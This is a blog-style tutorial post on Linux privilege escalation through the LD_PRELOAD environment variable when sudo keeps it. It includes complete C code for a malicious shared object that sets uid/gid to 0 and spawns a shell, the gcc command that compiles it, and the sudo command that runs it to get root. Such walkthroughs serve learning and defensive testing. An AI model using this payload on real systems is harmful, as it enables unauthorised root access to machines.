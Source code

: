 ```yaml
---
title: "LD PRELOAD"
description: 
date: 2025-01-24T13:21:32Z
image: 
math: 
license: 
hidden: false
comments: true
draft: false
tags: ["Privesc","Linux","Sudo"]
categories: ["Linux-Privilege-Escalation","Sudo-Attacks"] 
---
```




## **Linux Privilege Escalation Using LD_PRELOAD**

**LD_PRELOAD** is an environment variable in Linux that allows users to load custom shared libraries before any other libraries during the execution of a program. Attackers can exploit this feature to inject malicious code and potentially escalate privileges, especially if the target program is executed with elevated permissions (e.g., as `root`).

## **How LD_PRELOAD Works**

1. **Purpose**: LD_PRELOAD is used for debugging or testing by overriding functions in shared libraries.
2. **Mechanism**: When a program is executed, the dynamic linker checks the LD_PRELOAD variable for a shared library path. If specified, this library is loaded before others, allowing its functions to override standard library functions.

## Privilege Escalation

  ![image alt text](post/ldpreload.png)

Let’s generate a C program file inside the `/tmp` directory.

![C Program File Example](https://1.bp.blogspot.com/-B9yPaw7TbHU/WyKXUU2u8iI/AAAAAAAAXXo/pyxfa1xrXn8Pr1il5ziHSB2ppZ2MQN2AACEwYBhgL/s1600/4.png)

```c
#include <stdio.h> 
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0); 
    setuid(0);

    system("/bin/sh"); 
}
```
Save it as `shell.c` inside **/tmp**.

![Compiling the Shell Program](https://3.bp.blogspot.com/-H4g6p2ggbfA/WyKXVJnFfCI/AAAAAAAAXYE/jtgOe57paVYSq5EPS7ddVbVRiOFsP3m8gCEwYBhgL/s1600/5.png)

Next, compile it to generate a shared object with a `.so` extension, similar to a `.dll` file in the Windows operating system. Enter the following command:

```shell
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Check the generated file:

```shell
ls -al shell.so
```

Now execute the `find` command with `LD_PRELOAD` set to the path of the shared object:

```shell
sudo LD_PRELOAD=/tmp/shell.so find
```

To verify the privileges, run:

```shell
id
whoami
```
![](https://1.bp.blogspot.com/-SmdjE6lvzUI/WyKXVZ-5akI/AAAAAAAAXYM/ic2oN4QGsc4xmfyDUrwUMmWV0uL5bDntgCEwYBhgL/s1600/6.png)

And finally, you should have obtained root privileges! 😉


## Resources :
- https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/
- https://www.youtube.com/watch?v=bzjnIi5u9OQ